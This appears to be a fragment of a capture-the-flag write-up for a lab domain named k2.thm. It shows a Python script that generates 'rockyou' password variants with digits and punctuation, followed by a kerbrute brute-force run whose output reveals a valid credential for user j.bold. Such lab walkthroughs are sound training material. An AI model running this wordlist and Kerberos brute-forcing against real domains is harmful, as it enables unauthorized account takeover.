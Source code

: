 
<p aling="center"><em>james_variations.py</em></p>

```bash
#!/usr/bin/env python3

import string

base_pass = "rockyou"
special_chars = string.punctuation

f = open("./james.txt", "w")

for i in range(0, 10):
	for special_char in special_chars:
		f.write(f"{base_pass}{special_char}{i}\n")
		f.write(f"{base_pass}{i}{special_char}\n")
		f.write(f"{special_char}{i}{base_pass}\n")
		f.write(f"{i}{special_char}{base_pass}\n")
		f.write(f"{i}{base_pass}{special_char}\n")
		f.write(f"{special_char}{base_pass}{i}\n")

f.close()
```



:~/K2# python3 james_variations.py


:~/K2# tail -n 7 james.txt
}rockyou9
rockyou~9
rockyou9~
~9rockyou
9~rockyou
9rockyou~
~rockyou9





root@ip-10-201-108-225:~/K2# kerbrute bruteuser -d k2.thm --dc K2server.k2.thm james.txt j.bold

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/29/25 - Ronnie Flathers @ropnop

2025/09/29 23:42:50 >  Using KDC(s):
2025/09/29 23:42:50 >  	K2server.k2.thm:88

2025/09/29 23:43:07 >  [+] VALID LOGIN:	 j.bold@k2.thm:#8rockyou
2025/09/29 23:43:07 >  Done! Tested 1572 logins (1 successes) in 17.745 seconds
root@ip-10-201-108-225:~/K2# 
